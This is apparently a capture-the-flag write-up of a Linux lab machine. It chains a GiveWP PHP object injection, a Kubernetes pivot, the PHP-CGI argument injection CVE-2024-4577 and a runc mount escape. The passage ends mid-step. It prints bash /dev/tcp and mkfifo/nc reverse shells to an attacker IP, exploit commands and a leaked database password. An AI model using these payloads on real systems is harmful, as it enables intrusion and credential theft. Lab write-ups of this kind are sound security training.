Giveback
Giveback was a medium-difficulty Linux machine that began with an nmap scan revealing SSH on port 22 and HTTP on port 80. The web application was a WordPress-based donation website. I ran wpscan against it, which revealed an outdated GiveWP plugin (version 3.14.0). Researching CVEs affecting this version led me to a PHP Object Injection vulnerability via deserialization of untrusted user-controlled data in the donation form. After investigating the plugin's source code on GitHub to understand the injection point and the deserialization trigger on the receipt page, I searched for a usable POP gadget chain using phpggc, identifying Symfony/RCE6 as a candidate. Unable to get the payload working through Burp, I located a public PoC for the closely related CVE-2024-5932, which targeted a different parameter but used the same deserialization primitive with a Stripe-based gadget chain. Sending a bash reverse shell command through the PoC granted me a foothold inside a Docker container running as root.
Enumerating the container's environment variables revealed it was part of a Kubernetes cluster, exposing database credentials, internal service addresses, and a legacy intranet service running on 10.43.2.241:5000. I queried the WordPress MariaDB database but the recovered password hash did not crack. After transferring a static busybox binary onto the container for additional tooling, I set up a ligolo tunnel to reach the internal Kubernetes network and accessed the legacy service in my browser. It exposed a PHP-CGI endpoint with a developer note indicating it was originally deployed on Windows IIS. I identified CVE-2024-4577, a PHP-CGI argument injection vulnerability closely related to the older CVE-2012-1823, where the %AD soft hyphen character is normalized to a dash by php-cgi.exe, enabling argument injection and remote code execution via the auto_prepend_file directive. Since bash was absent on this container, I used a mkfifo-based sh reverse shell to obtain a foothold on the legacy container.
From this second container, I found Kubernetes serviceaccount credentials at the standard /var/run/secrets/kubernetes.io/serviceaccount path and used the token to authenticate to the Kubernetes API. While most actions were restricted, I was able to query the cluster secrets, which returned several base64-encoded values including a password for the babywyrm user. Decoding it and using it to SSH into the main machine granted me the user flag.
For privilege escalation, sudo -l revealed that babywyrm could run /opt/debug as root. The binary was unreadable and prompted for an administrative password. Trying the passwords recovered from the Kubernetes secrets revealed that the MariaDB password worked. The binary turned out to be a runc wrapper, a utility for running containers. I generated a runc config with sudo /opt/debug spec and added a bind mount for the host root filesystem. Mounting / directly was blocked, consistent with a denylist approach that blocks specific known paths rather than allowlisting safe ones. Using a relative path of ../../ instead bypassed the check, as the restriction performed a string comparison against the literal path rather than resolving it first. After also setting terminal to false to avoid a /dev/console PTY allocation error, the container launched successfully with the host filesystem mounted, granting access to the root flag.
User Flag

Initial nmap scan reveals 2 open ports. SSH on 22, and HTTP on 80. One thing to note is that the website uses WordPress as its CMS.
Taking a look at the website

This is a website focused on donations. I can send test donations and share the results on social media.
Since I know that this website uses WordPress, I will run wpscan against the main URL to gather information about the instance.

Aside from the WP version and its theme, the scanner found an out-of-date plugin.
Give is the most popular donation/fundraising plugin for WordPress, allowing users to create customized donation forms, manage donors, and track fundraising reports directly on a WordPress site.
I'll look for CVEs affecting this version on the web.
https://www.cvedetails.com/version/1801950/Givewp-Givewp-3.14.0.html

I'm most interested in the command execution vulnerabilities, as exploiting these will grant me a foothold on the box. I'll take a look at the vulns from 2024 first.

There are 3 PHP Object Injection vulnerabilities via deserialization of untrusted(user-controlled) data for various parameters.
https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
PHP has a built-in way to convert complex objects or arrays into a flat string so they can be stored or transmitted. This is called serialization, and the reverse is deserialization
class User {
public $name = "alice";
public $role = "subscriber";
}
$obj = new User();
echo serialize($obj);
# Outputs: O:4:"User":2:{s:4:"name";s:5:"alice";s:4:"role";s:10:"subscriber";}
The serialized object represents, in order:
O:4:"User" -> Object.class name is 4 chars long, and it is User.
:2: -> 2 fields in the object.
{s:4:"name" -> This is the beginning of the object's values. It's nested, just like the values in the code. In this case, this fragment represents a 4-character string "name"
;s"5"alice" -> A 5-char string "alice". In this context, this means that "name" is "alice"
;s:4:"role";s:10:"subscriber" -> THe same thing occurs here. Two strings with the number of their characters, connecting into "role - subscriber"
Investigating the plugin's source code
I will grab the exact GiveWP version from the GitHub repo. This will aid me in finding the injection point in just a moment.
https://github.com/impress-org/givewp/releases/tag/3.14.0

The first thing I'll do with the source is look for the faulty parameter, give_company_name
grep -r give_company_name -C 5 | grep -E "unserialize|serialize|destruct|wakeup" -C 5
It found a single result in includes/payments/class-give-payment.php. I'll open this file in Sublime Text.

If the value is NOT empty, it will be passed to give_clean before being saved as give_company
Looking for this function within the source with grep -r "function give_clean" reveals that it is defined in includes/formatting.php
This function is quite small, it is just:
function give_clean($var)
{
if (is_array($var)) {
return array_map('give_clean', $var);
}
return is_scalar($var) ? sanitize_text_field(wp_unslash($var)) : $var;
}
A wrapper around sanitize_text_field, which is a standard WordPress function meant to protect against XSS. In addition to that, it also calls wp_unslash to remove slashes, most likely protecting against path traversal attacks.
https://developer.wordpress.org/reference/functions/sanitize_text_field/
https://developer.wordpress.org/reference/functions/wp_unslash/
This value is then saved in the page meta with give_update_meta( $payment_id, '_give_donation_company', $give_company );. This is yet another wrapper, this time over the update_post_meta() function, which stores data in the wp_postmeta table keyed by post ID. So the company name gets stored as post meta under the key _give_donation_company attached to the payment post.
Looking at where in the source _give_donation_company, I can see an immediate trigger for the deserialization vulnerability.

This piece of code fires whenever a donor views their receipt page after donating, meaning deserialization could fire immediately after I submit the form, when the receipt page loads.
Exploiting the PHP Object Injection vulnerability
Because the CVE mentions a POP chain is needed for the exploit, I will look at what PHP libraries are included in this GiveWP version. I'll look into the vendor directory to see them.

There are quite a few of them. I will search for the installed components, as well as their versions, in the installed.json file.
cat vendor/composer/installed.json | grep -E "fakerphp|kjohnson|moneyphp|myclabs|paypal|psr|stellarwp|stripe|symfony|tecnickcom|woocommerce" | grep source

Trying to find a gadget chain manually would require quite a lot of time, so I will look for existing chains with phpggc
phpggc -l | grep -iE "fakerphp|kjohnson|moneyphp|myclabs|paypal|psr|stellarwp|stripe|symfony|tecnickcom|woocommerce"

Symfony RCE6 and RCE8 are the most fitting candidates, taking into account the version number. WooCommerce is not present in the installer.json file, only its action-scheduler is present. Aside from that, a second requirement for that chain is a very old WP core, which does not fit with the wpscan report from earlier.
phpggc Symfony/RCE6 'id'

I took this chain and sent it against the form via BurpSuite, however, the give_company_name parameter did not exist in the response. I added it and sent the result, but the server just returned success without any way to confirm that the code was in fact executed.
Not being able to make the vulnerability work through Burp, I decided to look for a PoC for this or a similar vulnerability online.
https://github.com/EQSTLab/CVE-2024-5932
python CVE-2024-5932-rce.py -u http://giveback.htb/donations/the-things-we-need/ -c "bash -c 'bash -i >& /dev/tcp/10.10.16.2/9001 0>&1'"
This PoC exploits a different, but very similar vulnerability. The only difference is that it targets a different parameter.

Right away, 2 things catch my attention:
-
The requested data section is presented as a JSON object.
-
The gadget chain itself begins from Stripe, not from Symfony.
What's interesting is that this payload does not work through Burp either. Perhaps it is because my Burp instance is set not follow redirects, or it's just that the payload needs to be sent as a JSON object.
Regardless, sending this command through results in a shell.

Enumeration of the unusual container
I landed in this container as a root user... There are no /home directories, and sudo does not exist. Looking at the environmental variables reveals a bunch of values, though.
# WordPress DB
WORDPRESS_DATABASE_HOST=beta-vino-wp-mariadb
WORDPRESS_ENABLE_DATABASE_SSL=no
WORDPRESS_DATABASE_SSL_CERT_FILE=
WORDPRESS_DATABASE_USER=bn_wordpress
WORDPRESS_DATABASE_SSL_KEY_FILE=
WORDPRESS_DATABASE_PORT_NUMBER=3306
WORDPRESS_DATABASE_NAME=bitnami_wordpress
WORDPRESS_DATABASE_PASSWORD=sW5sp4spa3u7RLyetrekE4oS
WORDPRESS_DEFAULT_DATABASE_HOST=mariadb
WORDPRESS_VERIFY_DATABASE_SSL=yes
WORDPRESS_OVERRIDE_DATABASE_SETTINGS=no
WORDPRESS_DATABASE_SSL_CA_FILE=
# MariaDB
BETA_VINO_WP_MARIADB_SERVICE_PORT=3306
WORDPRESS_DATABASE_HOST=beta-vino-wp-mariadb
MARIADB_PORT_NUMBER=3306
BETA_VINO_WP_MARIADB_PORT_3306_TCP_PROTO=tcp
BETA_VINO_WP_MARIADB_SERVICE_PORT_MYSQL=3306
MARIADB_HOST=beta-vino-wp-mariadb
BETA_VINO_WP_MARIADB_PORT_3306_TCP=tcp://10.43.147.82:3306
BETA_VINO_WP_MARIADB_PORT=tcp://10.43.147.82:3306
BETA_VINO_WP_MARIADB_PORT_3306_TCP_PORT=3306
BETA_VINO_WP_MARIADB_PORT_3306_TCP_ADDR=10.43.147.82
WORDPRESS_DEFAULT_DATABASE_HOST=mariadb
BETA_VINO_WP_MARIADB_SERVICE_HOST=10.43.147.82
# Kubernetes
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT_443_TCP=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.43.0.1
KUBERNETES_SERVICE_HOST=10.43.0.1
KUBERNETES_PORT=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
This explains a lot. This container is part of a Kubernetes cluster network. Since it is missing quite a lot of tools I'd like to have, I will upload a static busybox bin onto the container.
Before that, actually, I will enumerate the WordPress database located on this container. I have everything necessary to do so, and it might yield credentials.
mysql -u bn_wordpress -psW5sp4spa3u7RLyetrekE4oS -h beta-vino-wp-mariadb -e "use bitnami_wordpress; show tables; select * from wp_users;"

This hash does not crack, so it is a dead end. Now I'll actually transfer the mentioned earlier busybox bin.
timeout 5 cat < /dev/tcp/10.10.16.2/9002 > /tmp/busybox | On victim
nc -lnkvp 9002 < busybox | On attack box
Exploring the legacy service
Aside from the earlier mentioned env vars, there was another set of interesting variables.
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PORT=5000
LEGACY_INTRANET_SERVICE_SERVICE_HOST=10.43.2.241
LEGACY_INTRANET_SERVICE_PORT_5000_TCP=tcp://10.43.2.241:5000
LEGACY_INTRANET_SERVICE_SERVICE_PORT_HTTP=5000
LEGACY_INTRANET_SERVICE_SERVICE_PORT=5000
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_ADDR=10.43.2.241
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PROTO=tcp
LEGACY_INTRANET_SERVICE_PORT=tcp://10.43.2.241:5000
There is some sort of legacy intranet service running on 10.43.2.241:5000. Running wget through busybox on this IP confirms that it is reachable.
After quickly setting up a ligolo tunnel for the 10.43.2.x route through the container, I can now access the legacy service directly in my Burp browser.

It is indeed a legacy service, a CMS to be accurate. It exposes a PHP-CGI endpoint, which provides a way to run a server-side script (PHP, Perl, Python) when an HTTP request comes.
The developer's note mentions that this CMS was originally deployed on Windows IIS using the php-cgi.exe bin. Windows-style CGI is being retained for legacy reasons.
This is useful knowledge. Researching for CVEs related to php-cgi, I found a very old CVE, as well as the most recent one, affecting especially Windows environments.
https://github.com/watchtowrlabs/CVE-2024-4577
This is very similar to an older CVE CVE-2012-1823, where an attacker can inject arguments and modify internal PHP configuration to allow injecting code directly from HTTP data.
The only difference between those two is the %AD soft hyphen character. Normally invisible, it is changed to - when passed to php-cgi.exe, and this results in the same argument injection vulnerability as the older CVE.
curl http://10.43.2.241:5000/cgi-bin/php-cgi?%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input -d "command"

I was trying to curl a bash revshell... But while the request came through to my Python server, no reverse shell came back. I checked what shells were available on the container.

Bash is not present on the box. My usual bash reverse shell will not work, as /dev/tcp is a bash feature. Instead, I will use a more independent shell.
#!/bin/sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.2 9003 >/tmp/f
The idea here is that whatever I write through the nc connection is written to /tmp/f. cat /tmp/f reads that and feeds it to sh -i, sh -i executes that and sends output to nc, and nc sends the output back to me. Then the pseudo-loop repeats indefinitely.

Enumerating the Kubernetes SA secrets
On this new container, I checked whether I could reach the Kubernetes service port known from the environmental variables.
curl https://10.43.0.1:443 -insecure
